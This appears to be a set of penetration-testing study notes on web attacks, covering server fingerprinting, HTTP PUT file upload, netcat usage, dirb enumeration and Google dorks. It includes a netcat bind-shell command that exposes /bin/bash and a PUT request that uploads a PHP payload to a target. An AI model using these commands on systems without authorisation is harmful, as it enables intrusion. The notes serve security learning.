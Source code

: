 # Web Attacks

## Fingerprinting with Netcat

Netcat can be used to fingerprint the web server, it acts as both client and server.

```
nc <target> 80
HEAD / HTTP/1.0
```
Limitation with Netcat is that it cannot connect to HTTPS connections, So to connect to the HTTPS connection we can use **_OpenSSL_** command line tool.

## Fingerprinting with OpenSSL

```
openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

## Fingerprinting with Httprint

**_Httprint_** is a web server fingerprinting tool that uses a signature-based technique to identify web servers.

```
httprint -P0 -h <target hosts> -s <signature file>
```


* -P0 : Do not ping.
* -h  : Target hosts.
* -s  : set signature file to use.
* signature file location : ```/usr/share/httprint/signature.txt```

## HTTP Verbs

The most common HTTP methods are:

* GET   : used to request resources from web server
* POST  : used to submit form data to web server
* HEAD  : only asks for headers of the response, excludes body
* DELETE: used to remove a file/data from the server
* PUT   : used to **upload** file to the server
    
    To exploit the **PUT** method attacker needs to know the exact file uploading to the server. This can be done by using **_wc_** (word count) utility with **_-m_** parameter in linux.
    
    ```wc -m payload.php```
    
    After creating the payload and determining its size, use the following command to upload the payload to the server.
    
    ```
    nc target.com 80
    PUT /payload.php HTTP/1.0
    Content-type  : text/html
    Content-length  : 20
    
    <?php phpinfo(); ?>
    ```

## Netcat

```nc -lvp 8888``` Listener client

```nc -v 127.0.0.1 8888``` Server

Netcat udp connection

```nc -lvup 9999``` Listener client

```nc -vu 127.0.0.1 9999``` Server

Send or receive data through a file

```nc -lvp 8888 > received.txt``` Listener client

```echo "Hello" | nc -v 127.0.0.1 8888``` Server

Obtain remote **Bind Shell** using **Netcat**

```nc -lvp 8888 -e /bin/bash``` Listener client

```nc -v 127.0.0.1 8888``` Server

## Dirb

Dirb is a command line tool for enumerating directories and files.

Basic usage command, when not specified wordlist it uses by default wordlist for enumeration.

```dirb http://target.com```

Dirb wordlist location

```/usr/share/dirb/wordlists```

Usage with custom wordlist

```dirb http://target.com /usr/share/dirb/wordlists/common.txt```

[Seclists](https://github.com/danielmiessler/SecLists) wordlists collection

Dirb options:

```-a : custom user agent``` [useragents list](http://useragentstring.com/pages/useragentstring.php)

```dirb http:target.com -a "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:77.0) Gecko/20190101 Firefox/77.0"```

```
-p : proxy option
dirb http://192.168.121.12 -p http://127.0.0.1:8080
```

```
-c : authentication using cookie
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -c "COOKIE:XYZ"
```

```
-u : basic HTTP authentication, uses username and password combination
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -u "admin:password"
```
```
-H : add custom header to HTTP request
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -H "HeaderName: HeaderValue"
```

```-r :Don't search recursively```

```
-z : delay timing
dirb http://192.168.121.12 -z 1000
```

```
-S : silent mode
dirb http://192.168.121.12 -S
```

```
-X : extensions
dirb http://192.168.121.12 -X ".php,.bak"

-x : extensions list
dirb http://192.168.121.12 -x extensions.txt
```

## Google Hacking

Google hacking or Google Dorks is a technique to use Google's advance query commands to discover specific files and directories on a website.

```
inurl:admin intitle:login
site: example.com
intitle: login
filetype: pdf
```
